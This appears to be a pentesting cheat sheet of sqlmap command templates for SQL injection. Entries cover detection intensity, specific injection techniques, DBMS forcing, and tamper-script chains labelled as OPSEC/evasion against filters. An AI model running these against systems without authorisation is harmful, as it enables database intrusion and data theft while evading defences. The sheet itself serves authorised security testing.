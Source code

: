 # [OPSEC/Evasion] Increase test intensity (risk/level) --sqlmap
sqlmap -u "<url>" --risk=<1|2|3> --level=<1..5> --batch

# [OPSEC/Evasion] Delay between requests (ms/s) --sqlmap
sqlmap -u "<url>" --delay=<0.5> --batch

# [OPSEC/Evasion] HTTP timeout & retries --sqlmap
sqlmap -u "<url>" --timeout=<10> --retries=<3> --batch

# [Recon] Flush previous session data --sqlmap
sqlmap -u "<url>" --flush-session --batch

# [Recon] Force fresh detection queries --sqlmap
sqlmap -u "<url>" --fresh-queries --batch


# [Recon] Restrict techniques to Boolean-based --sqlmap
sqlmap -u "<url>" --technique=B --batch

# [Recon] Restrict to UNION-based --sqlmap
sqlmap -u "<url>" --technique=U --batch

# [Recon] Restrict to Time-based blind --sqlmap
sqlmap -u "<url>" --technique=T --time-sec=<5> --batch

# [Recon] Force specific DBMS if known --sqlmap
sqlmap -u "<url>" --dbms="<MySQL|PostgreSQL|MSSQL|Oracle|SQLite>" --batch

# [Recon] Positive/negative match strings (stabilize detection) --sqlmap
sqlmap -u "<url>" --string="<true_indicator>" --not-string="<false_indicator>" --batch


# [OPSEC/Evasion] Tamper using one or more scripts --sqlmap
sqlmap -u "<url>" --tamper="<tamper1,tamper2,...>" --batch

# [OPSEC/Evasion] Common tamper chain (randomcase + space2comment) --sqlmap
sqlmap -u "<url>" --tamper="randomcase,space2comment" --batch
